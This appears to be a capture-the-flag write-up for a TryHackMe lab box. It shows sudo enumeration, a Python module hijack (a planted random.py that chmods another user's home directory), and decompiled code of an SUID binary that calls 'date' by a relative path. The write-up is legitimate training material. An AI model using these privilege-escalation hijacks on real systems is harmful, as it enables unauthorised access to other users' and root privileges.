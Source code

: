 The webserver is being ran by the tryhacme room from its home folder (saw with cmd: ps aux) <br>

Since i was not finding anything in the system, i just did **sudo -l** and well, if i was not dumb, i had lost less time
```bash
# cmd: sudo -l

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

The script selects random strings from a giant multiline string. It also does "**import random**" at the top, so we might be able to create a module named **random** and execute code as rabbit <br>

So by doing something simillar as the code show below, we can execute commands on **rabbit's** behalf
```py
# filename: random.py
# command to execute: sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
import os
os.system("chmod 777 /home/rabbit/");
```

This way we can go to his folder and check what is there... the ideal would be a reverse shell but this is always freezing thus a reverse shell will crash too <br>

Within is folder, rabbit has a binary (**teaParty**), owned by root and configured with the SUID bit set, lets pull it to the local machine to analyze it <br>

checking its compiling hardening techniques
```sql
# cmd: checksec --file=teaParty
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

Checking the binary in ghidra, this is the main function
```c
void main(void)
{
  setuid(0x3eb);
  setgid(0x3eb);
  puts("Welcome to the tea party!\nThe Mad Hatter will be here soon.");
  system("/bin/echo -n \'Probably by \' && date --date=\'next hour\' -R");
  puts("Ask very nicely, and I will give you some tea while you wait for him");
  getchar();
  puts("Segmentation fault (core dumped)");
  return;
}
```

Well, looks like we have yet another relative reference in the system function call. Lets poke that around to check if it will work ! <br>
